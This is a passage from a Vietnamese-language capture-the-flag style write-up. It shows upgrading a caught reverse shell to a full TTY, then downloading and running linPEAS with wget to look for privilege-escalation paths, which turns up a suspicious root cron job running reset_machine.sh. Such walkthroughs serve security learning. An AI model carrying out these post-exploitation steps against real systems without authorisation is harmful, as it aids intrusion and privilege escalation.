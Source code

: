 Bấm CTRL+Z để đưa con shell về background

Ở máy attacker, ta sẽ dùng lệnh như sau. Ta sẽ quay lại shell của mục tiêu  

```bash
stty raw -echo; fg
```

Cuối cùng, chạy lệnh `export TERM=xterm` là xong. Ta có thể thao tác lên shell tiện lợi hơn :D

## **Chạy linPEAS phát hiện ra sự khác thường ở cron jobs**

Ở đây mình sẽ dùng [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) để tìm kiếm lỗ hỏng.

```bash
wget "https://github.com/carlospolop/PEASS-ng/releases/download/20231024-f6adaa47/linpeas.sh"
chmod +x linpeas.sh
./linpeas.sh
```

Kết quả cho thấy ở phần cron jobs có một file cron trong `/etc/cron.d`. Tuy nó không đỏ lè nhưng nó không phải màu xanh lá cho thấy file này ở đây không bình thường lắm đối với linux (linPEAS sẽ note màu xanh lá là những thứ bình thường trong máy Linux)

![](./img/27.png)

Check luôn `crontab` thấy có task của root thực thi file `reset_machine.sh` nhưng file này mình không có bất kì quyền gì

![](./img/28.png)

![](./img/29.png)
